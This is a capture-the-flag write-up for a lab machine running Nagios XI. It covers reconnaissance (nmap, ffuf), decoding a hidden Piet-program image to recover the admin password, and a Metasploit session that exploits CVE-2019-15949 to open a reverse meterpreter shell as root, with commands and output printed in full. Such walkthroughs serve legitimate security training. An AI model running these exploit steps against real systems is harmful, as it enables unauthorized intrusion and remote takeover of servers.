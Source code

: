 # Nax
Identify the critical security flaw in the most powerful and trusted network monitoring software on the market, that allows an user authenticated execute remote code execution.

---
### Resolution

Nmap verison and default scripts scan:
```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:1d:d9:88:01:77:0a:52:bb:59:f9:da:c1:a6:e3:cd (RSA)
|   256 af:67:7d:24:e5:95:f4:44:72:d1:0c:39:8d:cc:21:15 (ECDSA)
|_  256 20:28:15:ef:13:c8:9f:b8:a7:0f:50:e6:2f:3b:1e:57 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: ubuntu.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-03-23T23:42:04
|_Not valid after:  2030-03-21T23:42:04
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-03-24T00:14:58
|_Not valid after:  2030-03-22T00:14:58
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host:  ubuntu.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Both web apps have the same content. Visiting the website we find a suspecious welcoming expression:
```
<...snip...>
                  Welcome to elements.
					Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr
```
The symbols refer to periodic elements, based on the atomic number we end up with the following list `[47, 80, 73, 51, 84, 46, 80, 78, 103]`. If we interpret the numbers as ascii characters we get `/PI3T.PNg`. Is this the hidden file? yep it is.

We download that image to inspect it more. We can use `exiftool` to read the image's metadata:
```
$ exiftool PI3T.PNg 

<...snip...>
Palette                         : (Binary data 768 bytes, use -b option to extract)
Transparency                    : (Binary data 256 bytes, use -b option to extract)
Artist                          : Piet Mondrian
Copyright                       : Piet Mondrian, tryhackme 2020
Image Size                      : 990x990
Megapixels                      : 0.980
```

There we have our author name as the artist.

For the next step, a username is required. A username of what service? we can fuzz the web application for more directories. Spoil alert: the room is about Nagios so we expect it to be in the results.
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<machine_ip>/FUZZ"               

<...snip...>
javascript              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 41ms]
nagios                  [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 44ms]
```

Alternativly, the source code of the home page indicates a path `/nagiosxi/`
![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/57bcd0ba-e59a-403b-b095-71d762a053a8)

Navigating to `http://<machin_ip>/nagiosxi/`, we find a login page for the Nagios XI dashboard.\
The intuition based on the previous questions is to derive a username from the artist name "Pieter Cornelis Mondriaan". However this was a trap and has nothing to do with the next quesitons.\
If we take a look at what default usernames Nagios uses for its products, we find a list of potential answers, including the one we're looking for; the default Nagios admin username `nagiosadmin`.

Back to our picture. I found, after a considerable amount of time, that piet is actually a programming language. From [here](https://esolangs.org/wiki/Piet), we read:
> Piet is a stack-based esoteric programming language in which programs look like abstract paintings. It uses 20 colors, of which 18 are related cyclically through a lightness cycle and a hue cycle. A single stack is used for data storage, together with some unusual operations.

We can execute the picture `PI3T.PNg` using an online tool like [npiet online](https://www.bertnase.de/npiet/npiet-execute.php), and then finding the password: `n3p3UQ&9BjLp4$7uhWdY`.

Now lets launch metasploit and search for a useful exploit.
```
msf6 > search nagios xi type:exploit

Matching Modules
================

   #   Name                                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                                 ---------------  ----       -----  -----------
   0   exploit/linux/http/nagios_xi_snmptrap_authenticated_rce              2020-10-20       excellent  Yes    Nagios XI 5.5.0-5.7.3 - Snmptrap Authenticated Remote Code Exection
   1   exploit/linux/http/nagios_xi_configwizards_authenticated_rce         2021-02-13       excellent  Yes    Nagios XI 5.5.6 to 5.7.5 - ConfigWizards Authenticated Remote Code Exection
   2   exploit/linux/http/nagios_xi_mibs_authenticated_rce                  2020-10-20       excellent  Yes    Nagios XI 5.6.0-5.7.3 - Mibs.php Authenticated Remote Code Exection
   3   exploit/linux/http/nagios_xi_autodiscovery_webshell                  2021-07-15       excellent  Yes    Nagios XI Autodiscovery Webshell Upload
   4   exploit/linux/http/nagios_xi_chained_rce                             2016-03-06       excellent  Yes    Nagios XI Chained Remote Code Execution
   5   exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo         2018-04-17       manual     Yes    Nagios XI Chained Remote Code Execution
   6   exploit/linux/http/nagios_xi_magpie_debug                            2018-11-14       excellent  Yes    Nagios XI Magpie_debug.php Root Remote Code Execution
   7   exploit/unix/webapp/nagios_graph_explorer                            2012-11-30       excellent  Yes    Nagios XI Network Monitor Graph Explorer Component Command Injection
   8   exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Prior to 5.6.6 getprofile.sh Authenticated Remote Command Execution
   9   exploit/linux/http/nagios_xi_plugins_filename_authenticated_rce      2020-12-19       excellent  Yes    Nagios XI Prior to 5.8.0 - Plugins Filename Authenticated Remote Code Exection
   10  exploit/unix/webapp/nagios3_history_cgi                              2012-12-09       great      Yes    Nagios3 history.cgi Host Command Execution

```

We can check out the description of the different exploits. The closest match to our situation is 8. The exploited vulnerability corresponds to `CVE-2019-15949`.\
The full path to the exploit: `exploits/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce`.

Exploitation:
```
msf6 > use exploits/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set password n3p3UQ&9BjLp4$7uhWdY
password => n3p3UQ&9BjLp4$7uhWdY
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set rhosts <target_ip>
rhosts => <target_ip>
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lhost <your_ip>
lhost => <your_ip>
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lport 53
lport => 53
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on <your_ip> 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.5.6.
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3045380 bytes) to <target_ip>
[*] Meterpreter session 1 opened (<your_ip>:53 -> <target_ip>:57310) at 2024-03-06 16:35:28 +0000
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > 
```

Got a session! Note that the session user is root.\
The user flag is located at `/home/galand/user.txt` and the root flag is at `/root/root.txt`.









